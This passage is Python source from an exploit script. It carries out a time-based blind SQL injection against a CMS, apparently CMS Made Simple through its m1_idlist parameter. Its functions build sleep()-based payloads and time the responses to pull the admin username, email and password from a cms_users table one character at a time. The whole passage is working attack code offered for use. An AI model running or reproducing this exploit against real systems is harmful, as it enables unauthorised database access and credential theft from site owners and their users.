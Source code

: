 ```python
                break
        if flag:
            password = temp_password
            ord_password = ord_password_temp
    flag = True
    output += '\n[+] Password found: ' + password

def dump_username():
    global flag
    global db_name
    global output
    ord_db_name = ""
    ord_db_name_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_db_name = db_name + dictionary[i]
            ord_db_name_temp = ord_db_name + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_db_name)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+username+like+0x" + ord_db_name_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            db_name = temp_db_name
            ord_db_name = ord_db_name_temp
    output += '\n[+] Username found: ' + db_name
    flag = True

def dump_email():
    global flag
    global email
    global output
    ord_email = ""
    ord_email_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_email = email + dictionary[i]
            ord_email_temp = ord_email + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_email)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_users+where+email+like+0x" + ord_email_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            email = temp_email
            ord_email = ord_email_temp
    output += '\n[+] Email found: ' + email
    flag = True

dump_salt()
dump_username()
```